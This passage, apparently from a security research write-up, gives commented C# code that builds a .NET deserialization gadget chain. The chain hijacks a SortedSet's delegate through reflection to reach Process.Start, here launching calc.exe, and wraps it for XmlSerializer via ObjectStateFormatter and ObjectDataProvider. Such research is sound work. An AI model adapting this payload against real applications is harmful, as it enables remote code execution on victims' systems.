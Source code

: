 ![SortedSetAbuseFlowImage](/assets/img/SortedSetAbuseFlowImage.png)

From here it was a matter of building the gadget-chain payload, I’ve provided my code with comments in order to provide a descriptive flow of the steps.<br/>

```csharp
/* --- #1 ---
 * Serialize a payload for ObjectStateFormatter via a manipulated SortedSet<T> for triggering RCE
 * through Process::Start 
 */
// Create a regular string comparison delegate
 Delegate strCompareDelegate = new Comparison<string>(String.Compare);
// Create a multicast delegate from the string comparison delegate.
// Delegates must be of the same type during initialization of the multicast.
Comparison<string> multiStrCompareDelegate = (Comparison<string>)MulticastDelegate.Combine(strCompareDelegate, strCompareDelegate);
// Create a Comparer using the MulticastDelegate
IComparer<string> multiComparer = Comparer<string>.Create(multiStrCompareDelegate);
// Create a SortedSet<string> using the Comparer
SortedSet<string> set = new SortedSet<string>(multiComparer);
// Add the items to the collection
// Will later be used as arguments for Process::Start(string fileName, string arguments)
set.Add("cmd");
set.Add("/c calc.exe");
// Fetch the initial invocationList 
object[] invokeList = multiStrCompareDelegate.GetInvocationList();
// Manipulate the invocationList to contain Process::Start
invokeList[1] = new Func<string, string, Process>(Process.Start);
// Modify the private _invocationList variable through the FieldInfo API
FieldInfo fieldInfo = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
fieldInfo.SetValue(multiStrCompareDelegate, invokeList);

// Serialize the manipulated SortedSet<string> through ObjectStateFormatter
string osfPayload = new ObjectStateFormatter().Serialize(set);


/* --- #2 ---
 * Wrap ObjectStateFormatter with ObjectDataProvider for triggering ObjectStateFormatter::Deserialize
 * when ran through XmlSerializer::Deserialize
 */
ObjectDataProvider odp = new ObjectDataProvider();
odp.ObjectInstance = new ObjectStateFormatter();
odp.MethodParameters.Add(osfPayload);
odp.MethodName = "Deserialize";
```